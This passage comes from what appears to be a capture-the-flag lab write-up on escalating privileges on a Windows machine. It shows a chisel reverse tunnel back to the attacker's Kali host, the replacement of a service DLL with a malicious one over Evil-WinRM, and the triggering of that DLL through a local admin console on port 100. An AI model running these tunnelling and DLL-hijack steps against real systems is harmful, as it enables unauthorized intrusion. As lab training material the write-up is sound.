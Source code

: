 Next up we need to port forward port 100.
```bash
# On kali
┌──(kali㉿kali)-[~]
└─$ chisel server -p 1000 --reverse
2024/02/11 16:12:59 server: Reverse tunnelling enabled
2024/02/11 16:12:59 server: Fingerprint xwY7tVvmIRs4Mif0MGnaIQDHUnktdo+AdUx9/RymDUI=
2024/02/11 16:12:59 server: Listening on <http://0.0.0.0:1000>
2024/02/11 16:13:05 server: session#1: Client version (1.9.1) differs from server version (1.9.1-0kali1)
2024/02/11 16:13:05 server: session#1: tun: proxy#R:100=>100: Listening

# On the target machine
*Evil-WinRM* PS C:\\Users\\devdoc\\Documents> .\\chisel.exe client 10.10.14.205:1000 R:100:127.0.0.1:100
2024/02/11 13:13:08 client: Connected (Latency 26.8076ms)
```

To make sure the port forward worked we can try to access port 100 via the localhost.
```bash
┌──(kali㉿kali)-[~]
└─$ nc localhost 100
Reports Management administrative console. Type "help" to view available commands.
```

Now we can upload our malicious DLL file (rename the previous DLL).
```bash
*Evil-WinRM* PS C:\\Program Files\\ReportManagement\\Libraries> ren externalupload.dll backup.dll
*Evil-WinRM* PS C:\\Program Files\\ReportManagement\\Libraries> ls

    Directory: C:\\Program Files\\ReportManagement\\Libraries

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          2/9/2024   9:39 PM           9216 backup.dll

*Evil-WinRM* PS C:\\Program Files\\ReportManagement\\Libraries> upload externalupload.dll

Info: Uploading /home/kali/externalupload.dll to C:\\Program Files\\ReportManagement\\Libraries\\externalupload.dll

Data: 12288 bytes of 12288 bytes copied
 
Info: Upload successful!
```

In order to trigger the malicious DLL we have to connect to port 100 over localhost and use the upload functionality.
```bash
┌──(kali㉿kali)-[~]
└─$ nc localhost 100
Reports Management administrative console. Type "help" to view available commands.
help
Available Commands:
backup: Perform a backup operation.
validate: Validates if any report has been altered since the last backup.
recover <filename>: Restores a specified file from the backup to the Reports folder.
upload <external source>: Uploads the reports to the specified external source.
upload test
Attempting to upload to external source.
```
